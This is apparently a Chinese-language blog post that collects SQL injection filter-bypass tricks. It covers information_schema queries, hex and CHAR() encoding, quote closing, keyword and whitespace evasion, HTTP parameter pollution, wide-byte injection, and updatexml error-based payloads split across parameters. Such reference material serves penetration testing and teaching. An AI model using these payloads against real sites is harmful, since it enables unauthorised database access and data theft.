 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息  
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
### 查找有用的列名  
	where column_name LIKE ‘%PASS%’  
遇到单引号转译，可以考虑使用16进制绕过  
    table_name=’users ’——》table_name=0×757365727  
避开过滤  
	输入单引号没反应，尝试“  
单引号被阻止：  
1、where name=‘Marcus’ 可以使用ascii 替代字符串不必使用单引号 ‘a’->CHR(97)  

2、在mysql中连接字符串是CONCAT函数，select name=concat(CHAR(97),char(114))  

	oracle中 select name=chr(97)||chr(114)  
    
	Ms-SQL中 select name=char(97)+char(114)  
    

--注释符被阻止时考虑闭合：  

     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a   
     
单纯的闭合  

    ‘ playload and '
=号 被禁止：  

    使用<>（不等于）例：!(table_schema<>database())
关键字过滤：  

  select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54  

                                   
  空格过滤：  
  
    1、使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    2、在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
    3、 %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true  
  

在url中使用--注释时，可能会需要使用--+才能成功注释  


and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：  

    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)：  

    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1


